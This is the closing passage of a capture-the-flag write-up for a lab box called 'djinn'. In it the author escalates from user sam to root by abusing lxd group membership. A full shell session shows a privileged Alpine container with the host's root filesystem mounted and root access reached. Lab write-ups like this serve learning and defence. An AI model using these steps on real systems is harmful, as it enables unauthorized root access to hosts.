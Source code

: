 Digging and diggin, somehow I realised that I was membemr of a lot of groups.

```
sam@djinn:/tmp/20200509_13:00$ id
uid=1000(sam) gid=1000(sam) groups=1000(sam),4(adm),24(cdrom),30(dip),46(plugdev),108(lxd),113(lpadmin),114(sambashare)
```

Instresting. Let's find out what files I have access to as this group.
Out of all one stands out: `/var/lib/lxd/unix.socket`. My initial thought was that I was somehow connected as container to the host and will be able to break out.

After some digging around the internet and reading about LXC (of which I know very few about) I found these 2 good resources: https://book.hacktricks.xyz/linux-unix/privilege-escalation/lxd-privilege-escalation & https://www.hackingarticles.in/lxd-privilege-escalation/.

From the latter I ran `lxd init` defaulting everthing besides the storage backend to `dir`. 

Next step was to download an Alpine Linux container image from. https://us.images.linuxcontainers.org/images/alpine/3.11/amd64/default/

I now proceeded with 
```
sam@djinn:/tmp/20200509_13:00$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: d389eb93bf6d27a9f0940b2c903097c208a0834044a9b98218364c207e3059fc

sam@djinn:/tmp/20200509_13:00$ lxc init alpine privesc -c security.privileged=true
Creating privesc

sam@djinn:/tmp/20200509_13:00$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc

sam@djinn:/tmp/20200509_13:00$ lxc start privesc
sam@djinn:/tmp/20200509_13:00$ lxc exec privesc /bin/sh
~ # ls
~ # id
uid=0(root) gid=0(root)
~ # ls /mnt/root/root/
lago      proof.sh
```

###Conclusion
Wow. That was quite a ride. Spawning 2 days it combined both CTF and real world issues I guess. In the end the creds.txt and the root program were just rabbit hole. I really liked this room (even more I could beat it myself). Get it touch for feedback :)
